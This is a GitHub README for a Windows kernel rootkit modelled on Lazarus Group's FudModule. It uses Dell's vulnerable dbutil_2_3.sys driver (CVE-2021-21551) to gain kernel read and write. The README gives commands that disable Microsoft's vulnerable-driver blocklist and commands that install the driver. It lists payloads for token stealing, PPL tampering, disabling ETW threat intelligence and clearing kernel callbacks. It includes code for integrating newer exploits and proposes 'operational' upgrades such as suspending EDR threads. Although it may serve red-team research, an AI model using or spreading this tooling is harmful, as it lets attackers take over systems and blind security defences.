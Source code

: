 # Sunder
Windows rootkit modeled after Lazarus Group's [FudModule rootkit](https://decoded.avast.io/janvojtesek/lazarus-and-the-fudmodule-rootkit-beyond-byovd-with-an-admin-to-kernel-zero-day/). Reference [this version of Sunder](sunder-appid_exploit) for an example of the appid.sys driver exploit, which was utilized by Lazarus Group FudModule rootkit.

Sunder's vulnerable driver in this GitHub repository is Dell's dbutil_2_3.sys driver, since it is a simple vulnerability and therefore makes the rootkit-specific code easier to read. This driver **is blocked** by Microsoft. Execute the following commands to allow blocked drivers *(bcdedit command not required on Windows 11)*:
```
bcdedit /debug on	
powershell -c Set-ItemProperty -Path HKLM:\SYSTEM\CurrentControlSet\Control\CI\Config\ -Name VulnerableDriverBlocklistEnable 0
shutdown -r
```

This rootkit is designed to work with various kernel exploits. This allows you to change the vulnerable driver utilized to gain kernel read and write primitives. Updating the vulnerable driver is necessary to evade Microsoft's [blocked driver list](https://learn.microsoft.com/en-us/windows/security/application-security/application-control/app-control-for-business/design/microsoft-recommended-driver-block-rules).

![PPL editing payload](images/ppl.PNG)

Sunder contains the following payloads ([See the images directory for screenshots](images)):
- Token Stealing - Steal a token from any process (spawns cmd.exe, but can be modified to spawn any process)
- Token Escalation - Add permissions to a given process 
- ACL Editing - Opens handle to target process despite integrity or PPL protection level
	- *Note: Offsets for ACL editing have only been tested against winlogon.exe, and may need updated for other target processes*
- Enable/Disable PPL - Tamper with process PPL protection levels 
- Disable ETWti - Disable ETW threat intelligence (kernel-mode hooking)
- Clear process callbacks - Clear all process creation notification callbacks
- Clear thread callbacks - Clear all thread creation notification callbacks
- Clear DLL callbacks - Clear all DLL image load notification callbacks 

## Requirements
The vulnerable [dbutil_2_3.sys](dbutil_2_3.sys) driver must be running on the target. Download it from this repository, then install it:
```
# Set the binPath to the full filepath to dbutil_2_3.sys
sc create dellserv binPath= C:\dbutil_2_3.sys type= kernel
sc start dellserv
```

*Note: This driver is in Microsoft's block list. Installation is blocked on many systems. Update the driver and kernel exploit to execute on systems that employ driver block lists.*

Run this exploit from medium integrity or higher. You must be in high integrity to install the vulnerable driver. 

## Usage
Build the exploit in Visual Studio (x64, Release). Execute sunder.exe. You will receive a prompt asking which payload to run. Enter a number to execute a post-exploitation payload. 

## Stability
The dbutil_2_3.sys exploit (CVE-2021-21551) is highly stable. Post-exploitation functionality uses hardcoded offsets for certain Windows structs; therefore, executing the rootkit on untested OS versions may result in a Blue Screen of Death (BSOD).

The rootkit has been tested on the following Windows versions:
- Windows 10 Pro build 19045
- Windows 11 Enterprise build 22621
- Windows 11 Enterprise build 26100 

## Improvements and Additions
The following are ways the rootkit can (and should) be improved for operational use. I will not be updating the public release to include these features.

### Improvements
- Include offsets for various Windows OS versions
- Create the Kernel driver service from rootkit code
- Clean up driver and service on exit
- Convert interactive post-ex prompts into commandline arguments
- Encrypt or hash plaintext strings

### Feature Additions
- Disable object/registry callbacks
- Disable ETW providers
- Disable minifilter drivers
- Suspend EDR threads 

## Updating the Exploit
The following sections describe how to utilize the rootkit with newer kernel exploits.

### Background Information
Understanding the following structs and function prototypes is necesssary for proper usage of this library.

EXP_OUT is a struct containing necessary values for successful post-exploitation. This struct allows post-exploitation to avoid making syscalls. Avoiding syscalls is vital as some exploits leave the running process in a sensitive state that will Blue Screen of Death (BSOD) from syscalls (such as when corrupting PreviousMode). 

The EXP_OUT struct is as follows:
```
// Define struct passed in from exploit (Add additional parameters if necessary)
//	Set any addresses resolved with GetProcAddress in advance, to avoid BSOD in PreviousMode exploits
typedef struct _EXP_OUT
{
	LPVOID readprimitive;				//	Cast this to _readqword in rootk()
	LPVOID writeprimitive;				//	Cast this to _writeqword in rootk()
	DWORD myProcessId;				// To avoid using GetCurrentProcessId() in post-ex code
	HANDLE vulnDriver;				// For use in cases where IOCTLs must be called for every read/write 
	ULONGLONG systemEprocess;			// To iterate through EPROCESS list
	ULONGLONG KeInsertQueueApc;			// To find set ETWti bit and disable it
	ULONGLONG PsSetCreateProcessNotifyRoutine;	// To clear process callbacks
	ULONGLONG PsSetCreateThreadNotifyRoutine;	// To clear thread callbacks
	ULONGLONG PsSetLoadImageNotifyRoutine;		// To clear DLL (image load) callbacks
} EXP_OUT, * PEXP_OUT;
```

Read and Write Primitives are vital for this library's post-exploitation features. Executing code in the modern Windows kernel is difficult due to mitigations, and may result in higher chance of BSOD. 'Read primitives' read a value from an arbitrary address. 'Write primitives' write an arbitrary value at an arbitrary address.

This library uses the following prototypes for read and write primitive functions:
```
// Define read and write primitive functions (hDriver can be NULL in some exploits)
typedef ULONGLONG(__fastcall* _readqword)(
	HANDLE hDriver,
	ULONGLONG readwhere
	);
typedef void(__fastcall* _writeqword)(
	HANDLE hDriver,
	ULONGLONG writewhere,
	ULONGLONG writewhat
	);
```

### Adding the Code
Include the 'rktools.cpp' and 'rktools.h' files in your C++ exploit project.
```
#include "rktools.h"
```

Instantiate the EXP_OUT struct (naming 'rootStruct' in this example):
```
	PEXP_OUT rootStruct = new EXP_OUT;
```

Set read and write primitive function pointers. This library is designed for functions that read/write 64-bit values (QWORDs) from/to 64-bit addresses.
```
	rootStruct->readprimitive  = (LPVOID)readqword;
	rootStruct->writeprimitive = (LPVOID)writeqword;
```

Obtain the process ID (PID) of the current process:
```
	DWORD myPid = GetCurrentProcessId();
	rootStruct->myProcessId = myPid;
```

Use your exploit's read primitive to obtain values of the following kernel-mode functions. This step is OPTIONAL, but necessary to leverage full post-exploitation functionality. *See [this code](Sunder/Sunder/Sunder.cpp) from lines 149-201 for an example of how to find the necessary kernel-mode functions.*
```
	rootStruct->KeInsertQueueApc			= KeInsertQueueApcAddr;
	rootStruct->PsSetCreateProcessNotifyRoutine	= ProcCallbackAddr;
	rootStruct->PsSetCreateThreadNotifyRoutine	= ThreadCallbackAddr;
	rootStruct->PsSetLoadImageNotifyRoutine		= DllCallbackAddr;
```

Populate rootStruct with the vulnerable kernel driver's handle. This is only required in certain cases, such as when an IOCTL must be called for every use of read/write primitives.
```
	rootStruct->vulnDriver = hDriver;	// Pass vulnerable driver's handle to struct
```

Identify the kernel-mode address of an EPROCESS object (preferably the SYSTEM process). This will enable post-exploitation to iterate through kernel EPROCESS structures.
``` 
	rootStruct->systemEprocess = iterProc;	// Set SYSTEM EPROCESS pointer
```

Finally, call the rootkit. This will open an interactive menu to execute various kernel-mode payloads.
```
    	rootk(rootStruct);			// Call rootkit functionality for post-exploitation
```

## References
Thanks to [Nero22k's blog](https://nero22k.github.io/posts/windows-applocker-driver-elevation-of-privilege-cve-2024-21338/) for mentioning the ExpProfileDelete function as a useful gadget for arbitrary decrements (utilized in appid.sys exploit).

